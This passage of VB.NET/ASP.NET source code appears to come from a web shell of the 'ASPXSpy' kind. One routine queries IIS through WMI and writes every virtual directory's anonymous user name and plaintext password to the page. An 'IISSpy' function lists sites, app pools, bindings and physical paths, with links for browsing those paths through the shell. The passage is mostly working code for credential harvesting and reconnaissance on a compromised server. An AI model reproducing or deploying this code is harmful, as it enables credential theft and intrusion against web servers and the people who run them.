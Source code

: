 		IIsComputerObj = CreateObject("WbemScripting.SWbemLocator") 			' Create an instance of the IIsComputer object
		providerObj = IIsComputerObj.ConnectServer("127.0.0.1", "root/microsoftIISv2")
		nodeObj  = providerObj.InstancesOf("IIsWebVirtualDirSetting") '  - IISwebServerSetting
		
		Dim MaxCount = 20,Count = 0
		hr
		RW("only showing the first "+cstr(MaxCount) + " items")
		hr
		for each item in nodeObj
			response.write("<b>" + item.AppFriendlyName + " </b> -  ")
			response.write("(" + item.AppPoolId + ") ")
		
			response.write(item.AnonymousUserName + " : ")
			response.write(item.AnonymousUserPass)
			
			response.write("<br>")
			
			response.flush
			Count = Count +1
			If Count > MaxCount then exit for
		next		
		hr
End sub	
'End IIS_list_Anon_Name_Pass
Private Function CheckIsNumber(ByVal sSrc As String) As Boolean
	Dim reg As New System.Text.RegularExpressions.Regex("^0|[0-9]*[1-9][0-9]*$")
      If reg.IsMatch(sSrc) Then
            Return True
      Else
            Return False
      End If
End Function

Public Function IISSpy() As String
      Dim iisinfo As String = ""
      Dim iisstart As String = ""
      Dim iisend As String = ""
      Dim iisstr As String = "IIS://localhost/W3SVC"
      Dim i As Integer = 0
      Try
            Dim mydir As New DirectoryEntry(iisstr)
            iisstart = "<TABLE width=100% align=center border=0><TR align=center><TD width=5%><B>Order</B></TD><TD width=20%><B>IIS_USER</B></TD><TD width=20%><B>App_Pool_Id</B></TD><TD width=25%><B>Domain</B></TD><TD width=30%><B>Path</B></TD></TR>"
            For Each child As DirectoryEntry In mydir.Children
                  If CheckIsNumber(child.Name.ToString()) Then
                        Dim dirstr As String = child.Name.ToString()
                        Dim tmpstr As String = ""
                        Dim newdir As New DirectoryEntry(iisstr + "/" + dirstr)
                        Dim newdir1 As DirectoryEntry = newdir.Children.Find("root", "IIsWebVirtualDir")
						i = i + 1
                        iisinfo += "<TR><TD align=center>" + i.ToString() + "</TD>"
                        iisinfo += "<TD align=center>" + newdir1.Properties("AnonymousUserName").Value.ToString() + "</TD>"
                        iisinfo += "<TD align=center>" + newdir1.Properties("AppPoolId").Value.ToString() + "</TD>"
                        iisinfo += "<TD>" + child.Properties("ServerBindings")(0) + "</TD>"
                        iisinfo += "<TD><a href="+Request.ServerVariables("PATH_INFO")+ "?action=goto&src=" + newdir1.Properties("Path").Value.ToString() + "\>" + newdir1.Properties("Path").Value + "\</a></TD>"
                        iisinfo += "</TR>"
                  End If
            Next
            iisend = "</TABLE>"
      Catch ex As Exception
            Return ex.Message
      End Try
      Return iisstart + iisinfo + iisend